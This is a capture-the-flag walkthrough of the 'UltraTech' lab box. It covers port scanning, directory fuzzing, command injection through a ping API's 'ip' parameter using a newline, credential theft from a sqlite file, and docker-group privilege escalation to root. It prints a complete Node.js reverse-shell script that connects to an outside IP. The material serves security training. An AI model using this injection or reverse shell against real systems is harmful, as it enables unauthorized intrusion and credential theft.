# UltraTech


## Reconnaissance

I started running nmap and I got the following result:

```
$ nmap -p- -sV -sC -Pn 10.65.170.247
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-17 06:12 -0500
Nmap scan report for 10.65.170.247
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.5
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a4:02:d3:c4:72:bc:e3:d7:69:fe:f9:a3:f2:17:44:45 (RSA)
|   256 a4:4d:20:24:fb:d1:70:20:83:91:75:5f:20:e6:d3:53 (ECDSA)
|_  256 ff:34:42:97:0f:00:6a:a5:8f:07:bb:4c:97:b8:f4:9e (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.90 seconds

```

Accessing port `80801`, I didn't have any clue.

<figure><figcaption></figcaption></figure>
## Enumeration

Searching for files on port `8081`, I found a route called `ping`. I will take a look at that later.

```
$ ffuf -u http://10.65.170.247:8081/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.170.247:8081/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

auth                    [Status: 200, Size: 39, Words: 8, Lines: 1, Duration: 133ms]
ping                    [Status: 500, Size: 1094, Words: 52, Lines: 11, Duration: 179ms]
Auth                    [Status: 200, Size: 39, Words: 8, Lines: 1, Duration: 131ms]
Ping                    [Status: 500, Size: 1094, Words: 52, Lines: 11, Duration: 130ms]
:: Progress: [62281/62281] :: Job [1/1] :: 311 req/sec :: Duration: [0:03:26] :: Errors: 0 ::
```

By accessing port `31331`, I got this following page.

<figure><figcaption></figcaption></figure>

Performing a fuzzing on this application, I found a folder `js` which contains some javascript files.

```
$ ffuf -u http://10.65.170.247:31331/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.170.247:31331/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 826ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 856ms]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 127ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1905ms]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 127ms]
:: Progress: [62281/62281] :: Job [1/1] :: 313 req/sec :: Duration: [0:03:22] :: Errors: 0 ::

```

Looking at `api.js` file, I was able to notice that there is a parameter called `ip` that we can pass to run a ping command.

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

I intercepted the request using Burp, to see the result and it worked.

<figure><figcaption></figcaption></figure>

Since the ping command works, we can bypass that to inject a second command. I tried several bypasses, but injecting a newline worked. I injected `%0a`, that represents `\n` in URL encode. I ran a `ls` command as a second command.

<figure><figcaption></figcaption></figure>

Looking at utech.db.sqlite, we can see that it stores the credentials for some user.

<figure><figcaption></figcaption></figure>

I was unable to get a reverse shell, to get easier, I just upload a nodejs webshell. 

<figure><figcaption></figcaption></figure>

```javascript
$ cat shell.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(1337, "192.168.130.101", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

```

Executing the script, I got a shell.

<figure><figcaption></figcaption></figure>

## Login as r00t

Using the credentials found before (the password is using MD5), I was able to login as `r00t` user.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Since the user is the docker group. We can take advantage of that to escalate the privilege. Looking at the GTFOBins, I found this. 

<figure><figcaption></figcaption></figure>

Let's change `alpine` to the correct image `bash`. Running this command, I'm now root.

<figure><figcaption></figcaption></figure>

To resolve this challenge, I needed to read the first 9 characters of the root user's private SSH key.

<figure><figcaption></figcaption></figure>

